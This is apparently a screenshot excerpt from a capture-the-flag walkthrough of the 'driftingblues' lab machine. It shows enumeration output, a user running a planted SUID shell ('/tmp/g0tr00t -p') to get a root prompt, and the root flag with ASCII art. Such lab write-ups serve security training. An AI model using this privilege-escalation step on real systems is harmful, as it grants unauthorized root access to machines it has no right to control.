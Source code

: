 ```plain
       valid_lft forever preferred_lft forever 
################### 
hosts 
################### 

################### 
os info 
################### 

Linux driftingblues 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64 GNU/Linux 
robertj@driftingblues:~$ /tmp/g0tr00t -p 
g0tr00t-5.0# cd /root 
g0tr00t-5.0# cat root.txt  
flag 2/2 
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄ 
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄ 
░░░░█░░░░░░░░░░░░░░░░░░░░░░█ 
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█ 
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█ 
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█ 
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█ 
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█ 
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█ 
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█ 
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█ 
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█ 
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█ 
░░▐▌░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█ 
░░░█▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█ 
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀ 
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄ 
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█ 
░░█░░▌░█░░█░░█░░░█░░█░░█ 
░░█░░▀▀░░██░░█░░░█░░█░░█ 
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█ 

congratulations!
```


*Published January 20 2022 at 12 01*